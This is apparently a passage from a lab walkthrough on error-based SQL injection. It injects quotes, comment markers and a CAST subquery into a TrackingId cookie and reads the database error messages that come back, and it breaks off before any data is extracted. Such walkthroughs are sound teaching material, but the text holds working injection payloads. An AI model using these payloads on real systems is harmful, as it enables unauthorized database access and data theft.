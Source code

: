 ```html
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

Modify the `TrackingId` value with appending a single quote `'`

```
Cookie: TrackingId=6ZElStfg70FsBqDN'; session=7cw0QpsCD8kX46AYGFKbWQhhGZeEJLQj
```

Send the request and verify that the error message appears like this:

```html
<p class=is-warning>
	Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '6ZElStfg70FsBqDN''. Expected  char
</p>
```

This error output help us to determine the full query that the application structured as

```sql
SELECT * FROM tracking WHERE id = '<value>'
```

Modify the request within adding a single quote `'` or double-dash `--` 

```
Cookie: TrackingId=6ZElStfg70FsBqDN''
```

```
Cookie: TrackingId=6ZElStfg70FsBqDN'--
```

Verify that the responses from 2 situations do not return any error message → The query is syntactically valid

Add the subquery `SELECT` with `CAST()` function to convert the returned value to `int` data type

```
Cookie: TrackingId=6ZElStfg70FsBqDN' AND CAST((SELECT 1) AS int)--
```

Observe that there is a different error in the returned response

```html
<p class=is-warning>
	ERROR: argument of AND must be type boolean, not type integer Position: 63
</p>
```
